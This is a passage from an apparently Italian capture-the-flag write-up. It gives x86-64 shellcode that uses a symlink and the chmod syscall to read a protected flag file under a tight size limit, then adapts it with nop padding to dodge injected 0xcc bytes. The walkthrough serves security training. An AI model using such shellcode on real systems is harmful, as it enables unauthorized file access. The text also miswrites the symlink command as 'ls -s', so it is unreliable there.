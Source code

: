 3. infine ad `rdi` assegnamo l'indirizzo della shell.

## Esercizio 8
Questo esercizio si basa sul fatto di poter leggere solo 0x12 bytes in ingresso, che sono 18 byte.
Per poter far ciò si può utilizzare i link simbolici, infatti nel terminale scrivendo `ls -s /flag abc` si crea un link simbolico tra il file `flag` e il file `abc` per cui se si vanno a modificare i permessi di lettura/scrittura/esecuzione di `abc` ed essendo che ha il contenuto di `flag` ci basterà poi leggere `abc`
```
.intel_syntax noprefix
.global _start

_start:

    #file
    push 0x636261
    push rsp
    pop rdi
    
    #mode 
    push 6
    pop rsi
    #syscall 90
    push 0x5a
    pop rax

    syscall
```

## Esercizio 9
Questo esercizio invece ha questa difficoltà "This challenge modified your shellcode by overwriting every other 10 bytes with 0xcc. 0xcc, when interpreted as an
instruction is an `INT 3`, which is an interrupt to call into the debugger. You must avoid these modifications in your shellcode."
Questa modifica va a sovrascrivere il nostro codice ogni 10 byte, quindi prendendo l'esecuzione dell'esercizio precedente si eseguono 2 step per risolvere il nuovo esercizio
1. Prima si va a controllare con objdump sul codice dove inizierà a sovrascrivere byte, tenendo conto che la jmp occupa 2 byte dopo `pop rdi` si arriva a 9 
2. Adesso sappiamo che si deve inserire delle `nop` per 11 bytes, 10 per saltare la sovrascrittura del codice e 1 perchè serve un byte di padding.
   Basterà utilizzare `.rept` per inserire le nop e mettere un jmp a dopo le nop, così da non sovrascrivere il nostro codice. 

```
.intel_syntax noprefix
.global _start

_start:

    #file
    push 0x666564
    push rsp
    pop rdi
    
    jmp continue

    .rept 11 
        nop 
    .endr

    continue:
    #mode 
    push 6
```